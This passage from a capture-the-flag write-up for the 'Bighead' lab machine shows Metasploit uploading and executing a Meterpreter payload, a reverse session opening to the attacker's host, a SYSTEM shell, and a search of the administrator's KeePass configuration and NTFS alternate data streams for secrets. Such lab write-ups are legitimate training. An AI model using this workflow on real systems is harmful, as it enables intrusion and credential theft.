 ```
msf5 post(multi/manage/upload_exec) > run

[*] Uploading /root/htb/bighead/met.exe to met.exe
[*] Executing command: met.exe
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (179808 bytes) to 10.10.10.112

[*] Meterpreter session 7 opened (10.10.14.23:5555 -> 10.10.10.112:49167) at 2019-05-02 21:19:51 -0400

meterpreter > shell
Process 3316 created.
Channel 1 created.
Microsoft Windows [Version 6.0.6002]
Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

C:\xampp\apps\testlink\htdocs>whoami
whoami
nt authority\system
```

The administrator's `C:\Users\Administrator\AppData\Roaming\KeePass` directory contains a Keepass configuration file: `keepass.config.xml`. It contains the name of the last keyfile used : `admin.png` and the database file: `root.txt`. Notice that the file name is `root.txt:Zone.Identifier` and not just `root.txt` so this means we are looking at NTFS alternate data streams here.

```
[...]
<Association>
<DatabasePath>..\..\Users\Administrator\Desktop\root.txt:Zone.Identifier</DatabasePath>
<Password>true</Password>
<KeyFilePath>..\..\Users\Administrator\Pictures\admin.png</KeyFilePath>
</Association>
[...]
```

We can check this by doing `dir /r` in the Desktop folder and we can see:

```
C:\Users\Administrator\Desktop>dir /ah
dir /ah
 Volume in drive C has no label.
 Volume Serial Number is 7882-4E78

 Directory of C:\Users\Administrator\Desktop

06/10/2018  14:33             1,519 root.txt
               1 File(s)          1,519 bytes
               0 Dir(s)  16,316,542,976 bytes free

C:\Users\Administrator\Desktop>dir /r /ah
dir /r /ah
 Volume in drive C has no label.
 Volume Serial Number is 7882-4E78

 Directory of C:\Users\Administrator\Desktop

06/10/2018  14:33             1,519 root.txt
                              7,294 root.txt:Zone.Identifier:$DATA
               1 File(s)          1,519 bytes
               0 Dir(s)  16,316,542,976 bytes free

```
